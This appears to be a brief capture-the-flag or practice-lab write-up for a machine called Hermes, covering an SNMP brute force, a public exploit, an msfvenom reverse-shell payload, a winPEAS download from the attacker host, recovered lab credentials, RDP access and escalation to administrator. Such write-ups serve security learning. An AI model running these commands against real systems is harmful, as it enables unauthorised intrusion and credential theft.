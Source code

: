 # Hermes Standalone

I start off by scanning open ports:

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

On port 161 we discover a SNMP port open and we manage to bruteforce the password:

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i found this program running with snmp:

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I look up exploits and find what i'm looking for:

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

after looking what the payload does i generate a shell.exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

and run the exploit after hostinf a python server:

```
python 50972.py 192.168.243.145 192.168.45.207:80 shell.exe
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Then i transfer powershell:

```
powershell
Invoke-WebRequest "http://192.168.45.207/winPEASany.exe" -OutFile "C:\Users\offsec\Desktop\winpeas.exe"
```

After running a linpeas i found some cleartext credentials:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>zachary:Th3R@tC@tch3r</p></figcaption></figure>

I'm able to connect via RDP to the machine and while enumerating:

```
xfreerdp /v:192.168.243.145 /u:zachary /p:Th3R@tC@tch3r
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

So i'm able to launch shell as administrator:

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
